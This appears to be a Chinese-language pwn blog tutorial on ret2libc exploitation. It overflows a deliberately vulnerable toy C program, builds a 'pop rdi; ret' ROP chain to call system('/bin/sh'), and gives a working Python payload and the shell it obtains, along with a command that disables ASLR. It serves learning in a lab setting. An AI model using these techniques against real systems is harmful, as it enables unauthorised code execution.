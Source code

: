 ```yaml
---
title : ret2libc
date : 2017-11-10
tag : pwn
layout : post
---
```


> this is a test not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 需要关闭ASLR，`echo 0 > /proc/sys/kernel/randomize_va_space`，如果提示权限不够，可能需要用`su`提升权限

- 用`gcc`编译需要关闭`stack-protector`，打开NX

- 需要`gdb` `peda` `python2` `ROPgadget or Ropper`

- 攻击目标`test.c`， `gcc -g -fno-stack-protector -o test test.c`

  ```c
  #include<stdio.h>
  #include<unistd.h>
  int main(){
  	char buf[10];
  	read(0,buf,80);
  	puts("23333\n");
  	return 0;
  }
  ```

## 0x01分析

测试程序很明显存在一个溢出的漏洞，但不能够写入一段`shellcode`，然后运行，因为此时栈上的数据是不可执行的，也就是打开了NX，可以通过`checksec`来查看程序的保护情况

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

幸运的是可以使用`ret2libc`加上一点`ROP`，劫持程序执行流，让它运行`system()`

## 0x02确定返回地址的偏移量

  ```
gdb-peda$ pattern_create 100 test.txt
Writing pattern of 100 chars to filename "test.txt"
gdb-peda$ r < test.txt
...
gdb-peda$ x/wx $rsp
0x7fffffffdd08:	0x44414128
gdb-peda$ pattern_offset 0x44414128
1145127208 found at offset: 24
  ```

  获得返回地址的偏移量24

## 0x03确定相关地址

  ```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
  ```

因为关掉了`ASLR`所以动态链接库的地址不会变化，可以直接使用`system`函数的地址`0x7ffff7a52390`，字符串`/bin/sh`的地址`0x7ffff7b99d17`

## 0x04构造ROP链

还有一个需要解决的问题，怎样把`/bin/sh`传到`system`函数中去，在`linux64`的系统上，一般使用寄存器传递参数，按照`rdi,rsi,rdx,rcx,r8,r9`的顺序传递，如果参数过多，再用栈传递参数

所以需要一个简短的ROP链`pop rdi;ret`，可以使用工具`Ropper` `ROPgadget`或者直接`objdump`

```
$ ROPgadget --binary test|grep pop|grep rdi
0x0000000000400603 : pop rdi ; ret
```

## 0x05编写payload

```python
from struct import *
buf = 'a'*24
buf += pack('<Q', 0x400603)
buf += pack('<Q', 0x7ffff7b99d17)
buf += pack('<Q', 0x7ffff7a52390)
f = open('test.txt', 'w')
f.write(buf)
f.close()
```

整个流程大概是这样的：

返回地址被`pop rdi`的地址覆盖，所以程序流被控制了，执行`pop rdi;ret`，把栈顶弹出到`rdi`中，栈顶现在是`/bin/sh`的地址，然后它的地址自然被传递到了`rdi`寄存器中，接着执行`ret`，栈顶被弹入到`rip`，也就是`system()`的地址被存入了`rip`，现在调用`system()`函数，参数存在`rdi`中

## 0x06测试

```
$ (cat test.txt;cat)|./test
23333

whoami
void0red
```

可以看到get到了`shell`

## 0x07总结

通过`ret2libc`可以绕过`NX`
